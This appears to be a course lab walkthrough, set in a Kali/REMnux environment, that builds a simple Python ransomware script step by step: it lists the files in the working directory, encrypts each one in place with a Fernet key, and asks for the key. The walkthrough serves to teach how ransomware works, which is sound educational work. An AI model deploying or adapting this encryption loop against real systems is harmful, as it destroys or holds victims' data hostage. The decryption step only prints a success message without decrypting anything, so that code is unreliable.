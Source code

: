 ## Tasks

Before we begin please ensure that you are within the Kali_ITP-270 VM and you are inside of the REMnux Docker Container

### Task 1: Create A Working Environment

In the terminal, type the following and then press enter:
```bash
cd /Host_Desktop
```
<br>

Afterwards, type the following:
```bash
mkdir Ransomware && cd Ransomware
```
***
### Task 2: Create Test Files, Key File, and Ransomware File

In the terminal, you will create 3 test files by typing the following, then pressing enter:
```bash
echo "This is test file number 1" > file_1 && echo "This is test file number 2" > file_2 && echo "This is test file number 3" > file_3
```
Next, you will create the files for the key and the ransomware script by typing the following, then pressing enter:
```bash
touch thekey.key && touch ransomware.py
```
***
### Task 3: Scripting the Ransomware
Now that we have configured our working environment and installed python, we will start building our script step-by-step inside of our ransomware.py file.

**NOTE:** In this walkthrough, I will be using the gedit text editor for scripting purposes, but you are free to use any text editor you are comfortable with. If you do not have gedit, you can install the text editor by typing the following command and pressing enter:
```bash
sudo apt install gedit
```
<br>

**Step 1: Shebang**

First, we will open the ransomware.py file by typing the following and pressing enter:
```bash
gedit ransomware.py
```
<br>

Next, we will define our shebang line by typing the following on line 1:
```bash
#!/bin/python3
```
_A shebang line defines where the interpreter is located._

<br>

**Step 2: Importing Libraries**

Next, we will import 2 libraries by typing the following:
```python
import os
from cryptography.fernet import Fernet
```
- <code>os</code>: The os module provides a portable way of using operating system-dependent functionality.
- <code>Fernet from cryptography.fernet</code>: The Fernet module is used for encrypting the contents of the files.

<br>

**Step 3: Generating A Fernet Key**

For step 3, we will create a variable called <code>key</code>, generate a key from the Fernet module, and store the Fernet key inside the <code>key</code> variable by typing the following:

```python
key = Fernet.generate_key()
```
<br>

**Step 4: Storing the Key Inside the thekey.key File**

To store the newly generated key, we will first open our <code>thekey.key</code> file as thekey and we will write to the file using <code>wb</code> and specify that we want to write our variable called key. To do this type the following:
```python
with open("thekey.key", "wb") as thekey:
    thekey.write(key)
```
- The <code>w</code> in <code>wb</code> stands for write mode, indicating that the file will be opened for writing. This means that any existing content in the file will be overwritten. If the file does not exist, a new file will be created.

- The <code>b</code> in <code>wb</code> stands for binary mode, specifying that the file will be treated as a binary file. In binary mode, the file is written as a sequence of bytes rather than as text. This is typically used when working with non-text files, such as images or encrypted data.

<br>

**Step 5: Locating all Files in the Current Working Directory**

For this step, we will utilize the os.listdir() function from the os module that we imported earlier in the script as well as simple control flow statements and list functions.

First, we will create an empty list called files by typing the following:
```python
files = []
```
<br>

Next, we can tell the os module to find all the files within the current working directory excluding our ransomware.py script and thekey.key file by typing the following:
```python
for file in os.listdir():
    if file == "ransomware.py" or file == "thekey.key":
        continue
    else:
        if os.path.isfile(file):
            files.append(file)
```

**Step 6: Copying the Contents of the File**

To copy the contents of the files, we will use a <code>for</code> loop and read the contents of the files by using <code>rb</code> and we can store the contents inside of the file in a variable called <code>contents</code>. You can script this by typing the following:
```python
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
```

- The <code>r</code> in <code>rb</code> stands for read mode, indicating that the file will be opened for reading the existing content. This mode allows you to access and extract data from the file but does not allow any modifications or writing to it.

- The <code>b</code> in <code>rb</code> stands for binary mode, specifying that the file will be treated as a binary file. In binary mode, the file will be read as a sequence of bytes rather than as text.

<br>

**Step 7: Encrypt the File Contents and Rewrite Them Back to the File**

In this step, we will encrypt the file contents by using the Fernet module and store the encrypted contents in the variable named <code>contents_encrypted</code>. To do this, we can use the following syntax:
```python
contents_encrypted = Fernet(key).encrypt(contents)
```
<br>

Afterward, we will write the encrypted contents back into the file by typing the following:
```python
with open(file, "wb") as thefile:
    thefile.write(contents_encrypted)
```

<br>

**Step 8: Write Your Message**

For this step, we will simply print a message informing the end-user of their current situation.

**NOTE:** To make it easier for instant decryption, I supplied the key to the user in the message.

We can also script an input function for supplying the key to decrypt their files by typing the following:
```python
user_input = input("\nEnter The Key to Decrypt Your Files:\n")
```

<br>

**Step 9: Decryption**

In this step, we are going to implement an if statement that will check if the end-user has provided the correct key and if so, the encrypted files will become decrypted. Otherwise, the files will stay encrypted. You can script this by typing the following:
```python
if user_input == key.decode():
    print("Your Files Have Been Decrypted")
else:
    print("Nice Try")
```
